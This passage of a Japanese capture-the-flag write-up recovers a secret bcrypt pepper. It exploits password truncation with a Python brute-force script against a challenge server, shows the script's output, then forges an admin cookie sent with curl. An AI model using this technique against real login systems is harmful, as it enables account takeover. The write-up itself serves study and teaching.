 `$pepper1`が`PmVG7xe9ECBSgLUA`とわかった。  
さらに先ほどのテクニックを応用し、`guest`のパスワードを52文字から1文字ずつ減らして得られたパスワードハッシュをローカルで総当たりすることをひらめく。  
例えばパスワードを50文字にすると`$pepper2`の先頭1文字が残り、それより後ろは切り詰められる。  
以下のようにpepper2.pyで行う。  
```py
import base64
import bcrypt
import string
import requests

URL = "http://34.84.32.212:8080"
pepper1 = "PmVG7xe9ECBSgLUA"

pepper2 = ""
for i in range(16):
    response = requests.post(
        URL,
        data={"auth": "guest", "password": "A" * (51 - (i + 1))},
        allow_redirects=False,
    )
    hash = base64.b64decode(response.cookies["hash"])

    if hash.startswith(b"$2y$"):
        hash = b"$2b$" + hash[4:]

    for j in string.printable:
        if bcrypt.checkpw(
            f"{pepper1}guest{'A' * (51 - (i + 1)) + pepper2 + j}".encode(), hash
        ):
            print(f"FOUND: {pepper2 + j}")
            pepper2 += j
            break
```
実行する。  
```bash
$ python pepper2.py
FOUND: 8
FOUND: 8o
FOUND: 8oC
FOUND: 8oC7
FOUND: 8oC7m
FOUND: 8oC7mI
FOUND: 8oC7mIi
FOUND: 8oC7mIiD
FOUND: 8oC7mIiDF
FOUND: 8oC7mIiDFw
FOUND: 8oC7mIiDFw4
FOUND: 8oC7mIiDFw4h
FOUND: 8oC7mIiDFw4hQ
FOUND: 8oC7mIiDFw4hQv
FOUND: 8oC7mIiDFw4hQv2
FOUND: 8oC7mIiDFw4hQv2e
```
これで`$pepper1`、`$admin_password`、`$pepper2`がすべて入手できた。  
あとは`PmVG7xe9ECBSgLUA`、`admin`、`KeTzkrRuESlhd1V`、`8oC7mIiDFw4hQv2e`を連結し、ローカルで指定されたアルゴリズムでパスワードハッシュ化してサーバに投げてやればよい。  
以下のように行う。  
```bash
$ php -r "echo password_hash('PmVG7xe9ECBSgLUAadminKeTzkrRuESlhd1V8oC7mIiDFw4hQv2e', PASSWORD_BCRYPT);" | base64 -w 0
JDJ5JDEwJHBqTkl6SDg4Qm85VG1kd1NiZ3VqQWVJT0tGVm15U05XUDRqNVRXUkpPN3BEaHBnaTFyTFp1
$ curl http://34.84.32.212:8080/mypage.php -H "Cookie: auth=admin; hash=JDJ5JDEwJHBqTkl6SDg4Qm85VG1kd1NiZ3VqQWVJT0tGVm15U05XUDRqNVRXUkpPN3BEaHBnaTFyTFp1"
<!DOCTYPE html>
<html>
```